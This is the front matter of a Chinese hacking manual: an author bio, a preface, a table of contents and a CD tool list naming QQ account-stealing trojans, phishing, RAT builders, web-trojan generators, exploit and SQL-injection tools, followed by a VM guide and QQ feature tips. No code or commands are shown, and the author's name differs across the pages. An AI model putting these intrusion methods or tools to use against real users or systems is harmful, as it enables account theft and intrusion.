# 黑客育婴手册

作者：无敌小龙（张操）  
非安全·黑客手册 出品

## 作者介绍

姓名：郑潇  
网名：无敌小孩  
籍贯：武汉  
QQ：5450913  
BLOG：http://hi.baidu.com/pespin

“无名系统和操作障碍”对计算机网络安全有较深入的研究，曾经在各类 IT 杂志发表论文和文章近百篇，著有《Windows 网络编程》，代表作品有网络黑手 3.0 正式版、Delphi 远程控制程序远程宝 V1.0。






## 前言

随着计算机技术的飞速发展，网络的安全问题也日趋严峻。也许仅仅是晚几天没有升级杀毒软件的病毒库，或不小心点击了一个链接，都有可能带来巨大的损失。

想必大家听说过“冰河”“欢乐时光”“漏洞攻击”吧？这些只是黑客惯用伎俩中很小的一部分，黑客攻击的手段实在是太多了，因为每一台与互联网连接的计算机都可能成为黑客的攻击对象，当然其中也包括我和你的计算机。这样，对于那些防范意识较差，或对网络安全知识不甚了解的用户，常常极易成为黑客攻击的目标。

因此，为了让所有计算机使用者能够防患于未然，对于书中介绍的相关内容，作者在写作时几乎都是直接用连接 Internet 的计算机进行了实践，并对黑客常用的一些攻击手段进行了详尽的分析，使读者在实际应用中碰到黑客攻击时，能够做到“胸有成竹”，避免因遭受攻击与破坏而造成损失。

本书在围绕“攻与防”来展开叙述的同时，特别注重实际例子的演示作用，针对每一种攻防手段，都结合实际的例子来进行介绍，以使读者能够对这些黑客的攻防技术有更加感性的认识。

与市面上种类繁多的黑客类图书相比，本书具有如下优点：

- 1. 实用价值高；
- 2. 通俗易懂，使枯燥的学习过程更轻松；
- 3. 经验性强，能够把使用过程中的问题描绘得清清楚楚，便于分辨正误；
- 4. 犹如老师在旁边亲自指导，有种亲临现场的感觉。

本书最主要的精髓在于：希望读者能够运用本书介绍的黑客攻击防御方法去了解黑客，进而构筑自己的“铜墙铁壁”，使自己的网络更加安全。

本书言简意赅，内容详实，能够使读者在学习有关黑客知识时而不觉得乏味，在轻松和趣味中不知不觉地学到防杀黑客的基本知识，从而使自己在以后使用计算机时能够防止黑客的攻击与破坏，保护自己计算机中的资料不被黑客看到和破坏。

其中，全书由张博（无敌小龙）完成主体稿件内容的编写和统稿工作，并感谢侯金星负责 QQ 章节的编写。

作者：张博

## 目录 contents

## 第一章 QQ黑客之黑客入门

- **1.1 玩转QQ技巧**
  - 1.1.1 QQ2008版本介绍
  - 1.1.2 玩酷聊天文字
  - 1.1.3 聊天炒股两不误
  - 1.1.4 给聊友播放电影
  - 1.1.5 QQ秀徽章
  - 1.1.6 活跃天数积累方法
  - 1.1.7 QQ数字世界
  - 1.1.8 QQ好友恢复
  - 1.1.9 为QQ提速
  - 1.1.10 手工为QQ除广告
  - 1.1.11 批处理实现强制聊天
  - 1.1.12 VBS实现自动登录
  - 1.1.13 更换QQ托盘图标
  - 1.1.14 手机版QQ
  - 1.1.15 轻松阅读空间更新
  - 1.1.16 群发贺卡
  - 1.1.17 QQ网络记事本
  - 1.1.18 删除好友解决连接超时
  - 1.1.19 QQ常用网站
  - 1.1.20 QQ图标全攻略
- **1.2 智通QQ工具**
  - 1.2.1 QQ2009 preview3试用
  - 1.2.2 无限上下线骚扰器
  - 1.2.3 录制QQ视频
  - 1.2.4 QQ好友备份器
  - 1.2.5 聊天记录备份
  - 1.2.6 QQ贴图王
  - 1.2.7 QQ聊天记录偷窥器
  - 1.2.8 QQ百宝箱
  - 1.2.9 QQ防盗交流群器
  - 1.2.10 QQ七彩文字
  - 1.2.11 QQ查询器
  - 1.2.12 QQ增强工具包——fineplus
  - 1.2.13 QQ空间小秘书
- **1.3 打造完美QQ空间**
  - 1.3.1 QQ空间常见问题
  - 1.3.2 Qzone小诊所
  - 1.3.3 千变万化——我的空间
  - 1.3.4 领养QQ空间植物
  - 1.3.5 轻松做5级花花匠学徒
  - 1.3.6 空间模块使用
  - 1.3.7 QQ邮箱抢先写日志
  - 1.3.8 空间搬家——迅速安家立户
  - 1.3.9 秀一秀空间音乐
  - 1.3.10 人气暴涨——QQ空间人气精灵
  - 1.3.11 瞬间变身人气达人
  - 1.3.12 日志人气也来刷
  - 1.3.13 空间特色文字
  - 1.3.14 QQ空间最近访客查询
  - 1.3.15 QQ空间Flash身份证
- **1.4 驰骋QQ游戏**
  - 1.4.1 QQ游戏大厅多开
  - 1.4.2 QQ游戏宝盒——记牌器功能
  - 1.4.3 2D桌球（斯诺克）瞄准器
  - 1.4.4 大家来找茬外挂
  - 1.4.5 QQ连连看外挂
  - 1.4.6 五子棋终结者
  - 1.4.7 QQ对对碰（角色版）外挂
  - 1.4.8 QQ泡泡龙外挂
  - 1.4.9 QQ火拼俄罗斯外挂
  - 1.4.10 QQ模拟游戏伴侣
  - 1.4.11 QQ挖金子外挂
- **1.5 QQ黑客攻防**
  - 1.5.1 QQ盗号木马使用
  - 1.5.2 巧搜索，挖账号
  - 1.5.3 网页木马
  - 1.5.4 网络钓鱼——钓QQ
  - 1.5.5 钓鱼常见手段
  - 1.5.6 拒绝QQ木马
  - 1.5.7 QQ防骗技巧
  - 1.5.8 QQ申诉技巧
- **1.6 小结**

## 第二章 网吧黑客之内网横行

- **2.1 妙手化解网吧限制**
  - 2.1.1 制作在线下载网页
    - 一、TEGOWEB让程序在IE中翱翔
    - 二、制作在线下载网页之脚本也精彩
    - 三、巧用后缀做网页
  - 2.1.2 脚本下载防不胜防 — 100
    - EXE2BAT法 — 100
    - 利用FTP — 102
    - VBS法 — 103
  - 2.1.3 OUTLOOK EXPRESS法 — 104
  - 2.1.4 诱骗IE的IMAGE法 — 107
  - 2.1.5 不一般的QQ网络记事本 — 108
  - 2.1.6 使用工具快速破解 — 110
    - 精锐网吧辅助工具 — 110
    - 网吧黑手 — 112
    - 网吧突破小工具 — 112
    - 行者无疆 — 113
    - 网吧还原杀手 — 113
  - 2.1.7 破解工具DIY — 114
- 2.2 自由翱翔网吧内网 — 117
  - 2.2.1 从弱口令到系统权限 — 117
  - 2.2.2 共享入侵 — 122
- 2.3 将免费上网进行到底 — 126
  - 2.3.1 安全模式下的免费上网 — 126
  - 2.3.2 攻破密码！想上就上！— 128
- 2.4 网吧防盗防黑110 — 130
  - 2.4.1 网吧系统还原 — 130
  - 2.4.2 网吧数据备份 — 133
  - 2.4.3 网吧下载管理 — 134
- 2.5 小结 — 137

## 第三章 木马黑客之终极无间

- 3.1 木马嚣张史 — 139
  - 3.1.1 特洛伊和它的木马 — 139
  - 3.1.2 近代木马与恶意程序发展史 — 140
    - 1. 系统里的秘密程序 — 140
    - 2. 绕过防火墙的反弹木马 — 141
    - 3. 无进程木马后门 — 142
    - 4. 含有Rootkit技术特征的新型木马 — 143
  - 3.1.3 拿什么拯救我们的系统 — 145
- 3.2 反弹木马使用 — 147
  - 3.2.1 正向连接木马的兴衰史 — 147
  - 3.2.2 反弹木马之王——灰鸽子 — 151
    - 灰鸽子配置和上线 — 151
    - 灰鸽子也来另类上线 — 156
  - 3.2.3 其它经典的老牌反弹木马 — 158
    - 黑洞 — 159
    - 上兴 — 164
  - 3.2.4 新兴的反弹木马 — 169
    - 木偶2008 — 170
    - IRat — 175
    - 一步江湖 — 180
    - 毒宴（POISON IVY）— 186
  - 3.2.5 DDOS类型木马 — 192
- 3.3 木马防御技巧真经 — 195
  - 3.3.1 下载者的战争 — 195
  - 3.3.2 木马查杀技巧综述 — 196

### 第四章 职业黑客之闭关修炼

- 4.1 安全测试之环境搭建篇 — 200
  - 4.1.1 ASP服务器环境搭建 — 200
  - 4.1.2 PHP服务器环境搭建 — 203
    - 安装设置PHPWind Wamp3.0 — 204
    - 其它PHP程序的安装及MYSQL设置 — 205
  - 4.1.3 虚拟机安装初探 — 210
    - 虚拟机的安装 — 210
    - 虚拟机的设置 — 213
    - 安装操作系统 — 216
    - 虚拟机网络设置 — 219
- 4.2 黑客初体验 — 223
  - 4.2.1 GOOGLE黑客之刺探敌情 — 223
    - 注入漏洞之老树新花 — 223
      - 1. 如何批量找寻注入点 — 223
      - 2. 追寻搜索型注入点 — 223
    - 让网站数据库无处可逃 — 226
      - 1. 找出默认数据库 — 226
      - 2. 爆出数据库位置 — 227
      - 3. 找出Fwebeditor的数据库 — 228
    - 找寻遗失的上传漏洞 — 229
    - 列出服务器WEB目录 — 230
  - 4.2.2 从数据库“后门”到网络沦陷 — 231
  - 4.2.3 SQL弱口令的流氓入侵 — 241
- 4.3 黑客日记 — 244
  - 4.3.1 站在前人肩膀上的入侵之获得WEBSHELL — 245
  - 4.3.2 从网吧批量抓鸡到服务器沦陷 — 251
  - 4.3.3 内网服务器沦陷姊妹篇 — 257
  - 4.3.4 从官网服务器沦陷到内网穿梭 — 264
- 4.4 小结 — 268

## 第五章 防黑专家之铜墙铁骨

- 5.1 安全浏览，放心上网 — 270
  - 来自搜索的安全 — 270
  - 浏览器也来GHOST — 271
    - 1. GreenBorder — 271
    - 2. 360安全浏览器 — 272
  - 让网页木马销声匿迹 — 274
- 5.2 给你的数据套上金钟罩 — 277
  - 操作系统数据备份 — 277
  - 系统文件夹巧备份 — 279
    - 1. 桌面备份 — 279
    - 2. 收藏夹备份 — 279
    - 3. 注册表备份 — 279
  - 聊天工具的数据备份 — 280
- 5.3 专家手记之对一个新型病毒的查杀流程 — 281
- 5.4 小结 — 286

## 常用工具

> **[注意]**  
> 本光盘部分软件均由 WINRAR 工具压缩，使用之前请先解压。我们建议小菜们先安装虚拟机软件，然后再在虚拟机中进行一些软件的操作，以防自己的电脑系统因一些误操作或者不明原因而造成破坏。

## 【虚拟机软件介绍：VMWare & Virtual PC】

#### 什么是虚拟机软件

虚拟机软件可以在一台电脑上模拟出来若干台 PC，每台 PC 可以运行单独的操作系统而互不干扰，并实现一台电脑“同时”运行多个操作系统，还可以将这几个操作系统连成一个网络。

比如你目前本机实体电脑的操作系统是 Win2000 Server，我们可以利用在 Win2000 Server 上安装虚拟机软件模拟出另外的多台 PC，在这多台 PC 上分别运行安装不同的操作系统（比如：RedHat 7.2、Win98 和 Solaris 8 for x86 操作系统）。在实体电脑性能允许的情况下，这 4 个操作系统可同时在一台电脑上运行，互不干扰，并且同在一个局域网内。

目前 PC 上主流的虚拟机软件有以下两个：

VMWare —— 官方网站 http://www.vmware.com  
Virtual PC —— 官方网站 http://www.connectix.com

使用虚拟机的好处：可以在一台实体电脑中安装多个操作系统，并且每个系统有独立的操作空间，即便虚拟机中的系统被破坏，只要实体电脑系统正常，依然可以利用以往的“快照”或者 GHOST 等来恢复。这种特性非常方便进行软件测试或者对于初学者的电脑操作培训。

#### 使用虚拟机的硬件要求

虚拟机毕竟是将两台以上电脑的任务集中在一台电脑上进行处理，所以对硬件的要求比较高，主要是 CPU、硬盘和内存。目前电脑 CPU 的性能等级已经达到多核，硬盘都是上百 G，这样的配置已经完全能满足要求。这其中的关键是内存，内存的需求等于多个操作系统需求的总和。

### VMWare 相关特性

- 1. 支持的 Guest OS：MS-DOS、Win3.1、Win9x/Me、WinNT、Win2000、WinXP、Win.Net、Linux、FreeBSD、NetWare、Solaris x86。
- 2. 不支持的 Guest OS：BeOS、IBM OS/2 and OS/2 Warp、Minix、QNX、SCO Unix、UnixWare。
- 3. VMWare 模拟的硬件：主板、内存、硬盘（IDE 和 SCSI）、DVD/CD-ROM、软驱、网卡、声卡、串口、并口和 USB 口，但没有模拟显卡；并提供 vmware-tools 增强 Guest OS 的显示和鼠标功能。
- 4. VMWare 模拟出的硬件是固定型号，与 Host OS 的实际硬件无关，系统和配置文件具有互通性。
- 5. VMWare 可以使用 ISO 文件作为光盘，不需刻盘，可直接安装。
- 6. VMWare 为 Guest OS 的运行提供三种选项：
  - (1) persistent：Guest OS 运行中所做的任何操作都即时存盘。
  - (2) undoable：Guest OS shutdown 时会问是否对所做操作存盘。
  - (3) nonpersistent：Guest OS 运行中所做的任何操作，在 shutdown 后等于没做过。

如果要进行软件测试或试验，这是非常有用的功能，可以尽情地玩，把 Guest OS 搞死无限次都不怕。

### VMWare 与 Virtual PC 的主要区别

Virtual PC 是与 VMWare 类似的虚拟机软件，两者的主要区别如下：

1、VMWare 没有模拟显卡，要通过 vmware-tools 才能用上高分辨率和真彩色，否则只能用 VGA。而 Virtual PC 模拟了一个比较通用的显卡：S3 Trio 32/64（4M）。从这一点看，Virtual PC 比 VMWare 通用，但显示性能不如 VMWare。  
2、Virtual PC 的网络共享方式与 VMWare 不同。VMWare 是通过模拟网卡实现网络共享，而 Virtual PC 是通过在现有网卡上绑定 Virtual PC emulated switch 服务实现网络共享。

对于 Win2000/XP 等操作系统，如果网线没插或没有网卡时，要安装 Microsoft 的 loopback 软网卡，才能实现网络共享。在 Virtual PC 的 global setting 里，连有网卡并插好网线的时候，需将 Virtual switch 设成现实网卡；当没有网卡或网线没插的时候，将 Virtual switch 设成 ms loopback 软网卡，即可实现网络共享。

如果对虚拟机软件还有什么不懂的问题，可以到网上搜索相关资料，多锻炼自己的侦察及分析问题的能力吧！

### 【虚拟机相关教程】

- 超详细安装虚拟机教程—VMware
- 傻瓜式装虚拟机 Virtual PC 2007
- 视频教程—安装 Virtual PC
- 用 VMWARE 虚拟机学习 Linux 视频教程

这个 FLASH 版本的教程非常不错，讲了 Linux 最基本的知识，包括 Linux 的版本信息等等，教你如何在虚拟机上使用 Linux 操作系统。同时，还介绍了学习 Linux 的重要性及如何使用虚拟机技术安装 CentOS 4.5。

CentOS 是 RedHat 公司出品的一个发行版本，这个 Linux 发行版本也有相当的使用者，可以说掌握了它的安装方法，其它的版本都可以完成。

## 第一章 QQ版黑客之黑客入门

- DEEPQQ 资源修改器 1.3
- EvilCuteVer1.0
- fineplus1.46
- QQGameBox
- QQ 百宝箱
- QQ 对对碰（角色版）外挂
- QQ 俄罗斯外挂
- QQ 防盗器
- QQ 空间人气精灵
- QQ 空间日志浏览器 V1.90
- QQ 空间小秘书
- QQ 聊天记录备份软件 v1.5
- QQ 聊天记录偷看器 2007 第五版
- QQ 泡泡龙外挂
- QQ 棋牌游戏伴侣
- QQ 视频录像机
- QQ 贴图王
- QQ 游戏大厅多开显隐身
- 无限上下骚扰器
- 五子棋终结者
- ZONE 文字自动加彩工具第二版
- QQ 空间盗
- QQ 好友备份器
- QQ 挖金子外挂
- ……

## 第二章 网吧黑客之内网横行

- Remote
- GFRing3
- DeepFreezeSTDEval 6.3
- 网吧黑手
- 行者无疆
- SHED
- NTscan
- LanSee 查看局域网各种信息 v1.70 绿色特别版
- WebExplorerV1.0
- 网吧还原杀手 V2.0
- c-looknstop
- BluesPortScan
- 怪狗3389 登录器
- 网吧突破小工具源码
- 突破限制相关工具
- ……

## 第三章 木马黑客之终极无间

- BlackHole1.97
- 爱国者黑客感染下载者 2.0
- 一步江湖 RADMIN 生成器 RAedit
- 断版不够不卡网马生成器
- DRAT 2009 V2.4 插件版 Build 1219
- HGZ 远程控制软件 2009 免费体验版
- Pain_RAT_Private 汉化 By Lucky!a0 [D.s.T]
- SRAT V1.8 Build 1121
- 网络神偷 11.2
- TeamViewer（远程控制）汉化绿色版 V4.0.5474
- 彩虹桥复活版 0.01+Assasin 2.3
- WinConnect Server XP 多用户远程桌面服务端
- 3389 远程桌面控制台 081225
- 灰鸽子黑宝宝红包版 - 穿墙星防火墙 / 系统自带防火墙
- 猎手屏蔽监视器 V2.3.0 绿色破解版
- IE、VM、网页木马生成器
- 英雄版下载者
- 070111bb70
- 黑鹰红客 MS06014 网马生成器
- Radmin 3.0 Beta2 Viewer 汉化版
- 超级加花蕊 v1.2
- ……

## 第四章 职业黑客之网络突袭

- 桂林老兵修改 COOKIE 的浏览器
- IECookieView
- Langouster_udf.Dll 专用 PHP 网马工具
- bbsxp
- cookie modify
- SaBlog-X-V2.0
- TCPView2.53
- MSSQL-Injection-ToolsV1.0
- 牛B MYSQL 连接器 V1.5 版 ANDMYSQL 攻防录像
- XIDOS
- 安安一键S扫描器
- 易优超级字典生成器
- 拨号工具 RasPPPoE
- 使 XP 支持 SYN 扫描
- 网络入侵机_V2.0
- 快速 Ping 扫描工具
- WebCrack4
- 135 傻瓜批量溢出器
- apache tomcat scan
- BluesPortScan
- DiamondCS-Port-Explorer2.150
- digshell
- Fport2.0
- IISPutScanner
- iiswrite
- NTscan
- 辅臣数据库浏览器
- 无敌小龙专版 cmd
- WebHunter[网站猎手]3.0 正式版
- NBSI32 商业完美破解版 911 带专用版
- ……

## 第五章 防黑专家之铜墙铁骨

- 网刃（NetSword）
- WSYSCHECK 中文版 0601
- 网页源文件查看分析器
- RogueCleaner
- killyou
- knlsc13
- galaxy
- mview
- ksglioplusfixer
- GreenBorder-with-SafeFiles
- Finjan Secure Browsing 1.3.1.5
- ……

## 第一章 QQ黑客之黑客入门

> “一切从QQ开始”已不记得是哪位黑客前辈的一句调侃之话了，但是遍览众多黑客好手的学习历程，却往往和QQ有着不解之缘。的确，一个小小的QQ囊括了包括代理服务器、盗号、查询IP及资源修改等众多计算机领域的知识。“兴趣是最好的老师”，爱因斯坦如是说，所以本文决定从QQ着手，掀开黑客世界的另一片天空。


- 玩转QQ技巧
- 精通QQ工具
- 打造完美QQ空间
- 驰骋QQ游戏
- QQ黑客攻防
- 小结

### 1.1 玩转QQ技巧

在本节中，将会为大家奉献众多的QQ技巧，通过这些技巧，一定能够让你感受到使用QQ的另一番情趣。

#### 1.1.1 QQ2008版本介绍

进入2008年，QQ一直在经历着不断的更新换代，新功能喷涌而出，为QQ增添了巨大的乐趣。在这里，就让我们一起来回顾一下2008年以来QQ增添的新功能吧！

- 1. 会员涂鸦表情DIY

打开QQ表情的选择窗口，在表情上按鼠标右键即可选择编辑表情，如图1。



图1

QQ会员才能使用这个功能，这里可以进行输入表情文字以及选择修饰框等操作，如图2。



图2

利用此功能可以打造出属于我们的独一无二的QQ表情。如果你不是QQ会员也不必担心，我这里用了一款“按钮突破器”来使“完成”按钮恢复，如图3。这样编辑好你自己设计的表情后，再用QQ自带的截图功能把图片截下来就可以了。


图3

- 2. 好友分组支持拖拽、上下顺序自由调整

在QQ2008正式版中，这一功能解决了很多用户多年的问题，现在我们只需要轻松地拖拽好友分组就能为它们排序了，如图4。**注意：这个功能只能在好友分组为“树状模式”时才有效，而在“传统模式”下是无法拖拽的。**



图4

- 3. 会员动态头像

期待已久的动态头像终于出现了，但是只有会员才能设置。如果你是会员，赶快去选择一款炫酷的动态头像吧，如图5。这个功能不仅可以使用官方提供的头像，还可以自己上传，QQ2008正式版允许会员上传动态GIF格式图片作为头像！


图5

- 4. 群内音乐分享功能

之前我们只可以与好友一对一地分享音乐，现在终于可以把自己喜爱的歌曲分享给群中所有的好友了。首先在群聊天窗口点击那个音符按钮（倒数第2个绿色的），如图6。



图6

然后选择一首你喜欢的歌曲，点击“分享”即可。这样，在群里就会出现歌曲分享的提示了，如图7。

